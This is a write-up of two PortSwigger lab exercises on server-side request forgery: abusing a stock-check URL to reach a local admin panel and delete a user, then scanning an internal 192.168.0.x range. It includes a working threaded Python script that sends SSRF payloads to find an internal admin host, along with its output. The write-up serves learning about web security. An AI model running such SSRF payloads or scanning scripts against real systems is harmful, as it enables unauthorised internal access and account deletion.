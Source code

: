 # Server Side Request Forgery 

<h3> Lab: Basic SSRF against the local server </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32997785-74fe-46ec-a190-4075db32ec9c)

After going over to the web page i see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cd6f9f7-7910-48bc-9d12-a47ac10ad906)

Checking a random product shows this stock get function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6cc8f8b0-d8cd-49de-839c-b42962b14a67)

Intercepting the request and clicking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f4f356c-2839-4157-946c-f23483913339)

It is loading the stock value from an external url 

Since the aim of this challenge is to delete the user *carlos* on the */admin* directory from the internal web app let us do that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1d984ff-4d0e-4f13-ba52-942d409a7fa5)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb603606-d8cf-4ee7-aeb0-f6b876f84a2b)

The path to delete it is */admin/delete?username=carlos*

Doing that works and we get challenge solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c5a88ce6-d848-4046-9adb-c1477d55340c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9b984c07-8bae-4a36-adc3-4098a16b121a)


<h3> Lab: Basic SSRF against another back-end system </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1d4db110-6343-48b3-94c3-3a3a35a3cb0e)

Going over to the web app shows still the same function as the previous one
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb7a87f4-8032-4308-aa57-e3032ff91635)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09c8cf2d-78c5-46e5-8c88-bf5162563c83)

The aim for this challenge is to scan the internal *192.168.0.X* range for an admin interface on port *8080*, then use it to delete the user carlos

I didn't want to use burp intruder for it so i made a script for it

```python
#!/usr/bin/python3
import requests
from time import sleep
from threading import Thread

def sendRequest(url, cookie, ip):
    # Exclude ip 192.168.0.1, which is the stock API address
    if ip == '192.168.0.1':
        return

    data = {
        'stockApi': f'http://{ip}:8080/'
    }

    # Send a POST request to /product/stock, and the data is the SSRF payload
    StatusCode = requests.post(url, cookies=cookie, data=data).status_code

    # Using \r to clean previous line
    print(f'[*] Trying ip: {ip}', end='\r')

    if StatusCode != 500:
        print(f'[+] Found a valid internal ip address: {ip}')

def main():
    url = 'https://0aa60010032c1eab80b7a35b002b000e.web-security-academy.net/product/stock'
    cookie = {'session': 'OS7X5KkySnlT6ocIvQfQuvWPt10SKciB'}

    # Generate a list of IPv4 private ip addresses from 192.168.0.0 to 192.168.0.255
    ipAddressList = list()

    for lastOctet in range(256):
        ipAddressList.append(f'192.168.0.{lastOctet}')

    # For each private ip address, spawn a new thread to function sendRequest(url, cookie, ip)
    for ip in ipAddressList:
        thread = Thread(target=sendRequest, args=(url, cookie, ip))
        thread.start()

        sleep(0.1)


if __name__ == '__main__':
    main()

```

Running it gives the ip 

```
➜  Desktop python3 solve.py
[+] Found a valid internal ip address: 192.168.0.48
➜  Desktop 
```

Trying it over my proxy gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8611e4a3-100e-4f61-86bd-aa343896efcf)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cf4a98a-590d-46d3-aa80-37599f54db87)

We can now delete the user *carlos*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26b903b0-163f-4513-be3f-7ee33256f6f7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/23acecf1-27da-42ef-9b37-76f3803c2be9)
